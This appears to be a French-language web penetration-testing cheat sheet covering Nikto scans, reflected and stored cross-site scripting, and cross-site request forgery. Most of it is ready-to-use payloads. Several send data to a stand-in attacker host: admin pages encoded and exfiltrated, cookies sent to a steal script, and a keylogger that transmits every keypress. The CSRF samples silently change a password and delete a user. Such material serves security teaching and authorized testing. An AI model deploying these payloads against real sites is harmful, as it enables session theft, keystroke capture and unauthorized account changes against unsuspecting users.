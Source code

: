 ### **Nikto**
```bash
# Scan de vulnérabilités web
nikto -h http://app-test.exemple.local/
nikto -h http://app-test.exemple.local/ -C all  # Tous les checks
nikto -h http://app-test.exemple.local/ -output nikto_results.html -Format htm
```

## 💉 Techniques d'Exploitation Avancées

### **Cross-Site Scripting (XSS)**

#### **XSS Réfléchi**
```javascript
// Test de base
http://app-test.exemple.local/search.php?q=<script>alert('XSS')</script>

// Bypass de filtres
http://app-test.exemple.local/search.php?q=<img src=x onerror=alert('XSS')>
http://app-test.exemple.local/search.php?q=<svg onload=alert('XSS')>
http://app-test.exemple.local/search.php?q=javascript:alert('XSS')

// Payload avancé
http://app-test.exemple.local/search.php?q=<script>fetch('/admin/users').then(r=>r.text()).then(d=>fetch('http://attaquant.com/?data='+btoa(d)))</script>
```

#### **XSS Stocké**
```javascript
// Dans un commentaire ou profil
<script>
document.cookie = "session=" + document.cookie;
fetch('http://attaquant.com/steal.php?cookie=' + document.cookie);
</script>

// Keylogger XSS
<script>
document.addEventListener('keypress', function(e) {
    fetch('http://attaquant.com/log.php?key=' + e.key);
});
</script>
```

### **Cross-Site Request Forgery (CSRF)**
```html
<!-- CSRF pour changement de mot de passe -->
<form action="http://app-test.exemple.local/change_password.php" method="POST" style="display:none">
    <input name="new_password" value="hacked123">
    <input name="confirm_password" value="hacked123">
</form>
<script>document.forms[0].submit();</script>

<!-- CSRF avec AJAX -->
<script>
fetch('http://app-test.exemple.local/admin/delete_user.php', {
    method: 'POST',
    body: 'user_id=1234',
    credentials: 'include'
});
</script>
```
